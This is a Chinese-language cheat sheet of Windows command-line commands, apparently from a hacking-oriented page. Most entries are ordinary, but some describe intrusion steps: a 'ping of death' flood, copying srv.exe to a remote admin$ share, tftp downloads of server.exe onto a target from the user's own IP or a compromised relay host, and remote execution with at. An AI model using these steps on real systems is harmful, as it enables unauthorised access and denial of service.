 * ping -t -l 65550 ip 死亡之ping(发送大于64K的文件并一直ping就成了死亡之ping)
* ipconfig (winipcfg) 用于windows NT及XP(windows 95 98)查看本地ip地址，ipconfig可用参数“/all”显示全部配置信息
* tlist -t 以树行列表显示进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
* kill -F 进程名 加-F参数后强制结束某进程(为系统的附加工具，默认是没有安装的，在安装目录的Support/tools文件夹内)
* del -F 文件名 加-F参数后就可删除只读文件,/AR、/AH、/AS、/AA分别表示删除只读、隐藏、系统、存档文件，/A-R、/A-H、/A-S、/A-A表示删除除只读、隐藏、系统、存档以外的文件。例如“DEL/AR *.*”表示删除当前目录下所有只读文件，“DEL/A-S *.*”表示删除当前目录下除系统文件以外的所有文件
* del /S /Q 目录 或用：rmdir /s /Q 目录 /S删除目录及目录下的所有子目录和文件。同时使用参数/Q 可取消删除操作时的系统确认就直接删除。（二个命令作用相同）
* move 盘符路径要移动的文件名　存放移动文件的路径移动后文件名 移动文件,用参数/y将取消确认移动目录存在相同文件的提示就直接覆盖
* fc one.txt two.txt > 3st.txt 对比二个文件并把不同之处输出到3st.txt文件中，"> "和"> >" 是重定向命令
* at id号 开启已注册的某个计划任务
* at /delete 停止所有计划任务，用参数/yes则不需要确认就直接停止
* at id号 /delete 停止某个已注册的计划任务
* at 查看所有的计划任务
* at ip time 程序名(或一个命令) /r 在某时间运行对方某程序并重新启动计算机
* finger username @host 查看最近有哪些用户登陆
* telnet ip 端口 远和登陆服务器,默认端口为23
* open ip 连接到IP（属telnet登陆后的命令）
* telnet 在本机上直接键入telnet 将进入本机的telnet
* copy 路径文件名1　路径文件名2 /y 复制文件1到指定的目录为文件2，用参数/y就同时取消确认你要改写一份现存目录文件
* copy c:srv.exe ipadmin$ 复制本地c:srv.exe到对方的admin下
* copy 1st.jpg/b+2st.txt/a 3st.jpg 将2st.txt的内容藏身到1st.jpg中生成3st.jpg新的文件，注：2st.txt文件头要空三排，参数：/b指二进制文件，/a指ASCLL格式文件
* copy ipadmin$svv.exe c: 或:copyipadmin$*.* 复制对方admini$共享下的srv.exe文件（所有文件）至本地C：
* xcopy 要复制的文件或目录树　目标地址目录名 复制文件和目录树，用参数/Y将不提示覆盖相同文件
* 用参数/e才可连目录下的子目录一起复制到目标地址下。
* tftp -i 自己IP(用肉机作跳板时这用肉机IP) get server.exec:server.exe 登陆后，将“IP”的server.exe下载到目标主机c:server.exe 参数：-i指以二进制模式传送，如传送exe文件时用，如不加-i 则以ASCII模式（传送文本文件模式）进行传送
* tftp -i 对方IP　put c:server.exe 登陆后，上传本地c:server.exe至主机
* ftp ip 端口 用于上传文件至服务器或进行文件操作，默认端口为21。bin指用二进制方式传送（可执行文件进）；默认为ASCII格式传送(文本文件时)
* route print 显示出IP路由，将主要显示网络地址Network addres，子网掩码Netmask，网关地址Gateway addres，接口地址Interface
* arp 查看和处理ARP缓存，ARP是名字解析的意思，负责把一个IP解析成一个物理性的MAC地址。arp -a将显示出全部信息
* start 程序名或命令 /max 或/min 新开一个新窗口并最大化（最小化）运行某程序或命令
* mem 查看cpu使用情况
* attrib 文件名(目录名) 查看某文件（目录）的属性
* attrib 文件名 -A -R -S -H 或 +A +R +S +H 去掉(添加)某文件的 存档，只读，系统，隐藏 属性；用+则是添加为某属性
* dir 查看文件，参数：/Q显示文件及目录属系统哪个用户，/T:C显示文件创建时间，/T:A显示文件上次被访问时间，/T:W上次被修改时间
* date /t 、 time /t 使用此参数即“DATE/T”、“TIME/T”将只显示当前日期和时间，而不必输入新日期和时间
* set 指定环境变量名称=要指派给变量的字符 设置环境变量
* set 显示当前所有的环境变量
* set p(或其它字符) 显示出当前以字符p(或其它字符)开头的所有环境变量
* pause 暂停批处理程序，并显示出：请按任意键继续....
* if 在批处理程序中执行条件处理（更多说明见if命令及变量）
* goto 标签 将cmd.exe导向到批处理程序中带标签的行（标签必须单独一行，且以冒号打头，例如：“：start”标签）
* call 路径批处理文件名 从批处理程序中调用另一个批处理程序 （更多说明见call /?）
* for 对一组文件中的每一个文件执行某个特定命令（更多说明见for命令及变量）
* echo on或off 打开或关闭echo，仅用echo不加参数则显示当前echo设置
* echo 信息 在屏幕上显示出信息
* echo 信息 >> pass.txt 将"信息"保存到pass.txt文件中
* findstr "Hello" aa.txt 在aa.txt文件中寻找字符串hello
* find 文件名 查找某文件
* title 标题名字 更改CMD窗口标题名字
* color 颜色值 设置cmd控制台前景和背景颜色；0=黑、1=蓝、2=绿、3=浅绿、4=红、5=紫、6=黄、7=白、8=灰、9=淡蓝、A=淡绿、B=淡浅绿、C=淡红、D=淡紫、E=淡黄、F=亮白
* prompt 名称 更改cmd.exe的显示的命令提示符(把C:、D:统一改为：EntSky )
* ver 在DOS窗口下显示版本信息
* winver 弹出一个窗口显示版本信息（内存大小、系统版本、补丁版本、计算机名）
* format 盘符 /FS:类型 格式化磁盘,类型:FAT、FAT32、NTFS ,例：Format D: /FS:NTFS
* md　目录名 创建目录
* replace 源文件　要替换文件的目录 替换文件
* ren 原文件名　新文件名 重命名文件名
* tree 以树形结构显示出目录，用参数-f 将列出第个文件夹中文件名称
* type 文件名 显示文本文件的内容
* more 文件名 逐屏显示输出文件
* doskey 要锁定的命令=字符